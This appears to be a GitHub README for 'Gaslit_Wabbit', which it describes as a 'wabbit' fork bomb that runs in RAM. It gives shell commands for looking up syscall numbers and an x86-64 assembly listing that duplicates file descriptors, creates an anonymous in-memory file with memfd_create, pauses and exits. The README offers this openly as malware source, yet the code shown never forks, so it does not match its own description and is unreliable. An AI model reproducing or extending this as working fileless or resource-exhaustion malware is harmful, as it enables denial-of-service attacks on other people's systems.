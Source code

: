 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
-```shell
#define __NR_memfd_create 319
```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
-```shell
#define __NR_pause 34
```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
-```shell
#define __NR_exit 60
```


```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```